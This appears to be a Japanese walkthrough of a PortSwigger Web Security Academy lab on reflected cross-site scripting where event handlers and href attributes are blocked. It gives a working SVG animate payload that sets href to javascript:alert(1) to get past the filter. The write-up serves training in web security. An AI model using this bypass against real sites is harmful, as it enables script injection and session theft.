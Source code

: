 # イベントハンドラと href 属性をブロックした XSS の反映

次のハッキングラボを実施します  
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked

- 1. ハッキングラボにアクセスします
- 2. 検索窓に以下を入力して検索します

```js
<script>alert(1)</scripy>
```

以下のメッセージが表示されます

```
"Tag is not allowed"
```

このラボを解決するには、クリックすると関数を呼び出すベクターを挿入するクロスサイト スクリプティング alert 攻撃を実行します。

- 3. ラボの検索結果 URL にスクリプトを埋め込んだベクター画像を埋め込みます
     '''
     https://0a60007a03711e2c803b53c9009a00f2.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
     '''

- 4. コンポーネントが表示されるようになるのでクリックすると、アラートが実行されます
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/e5b00065-9713-4627-86d7-f85709dc4aad)
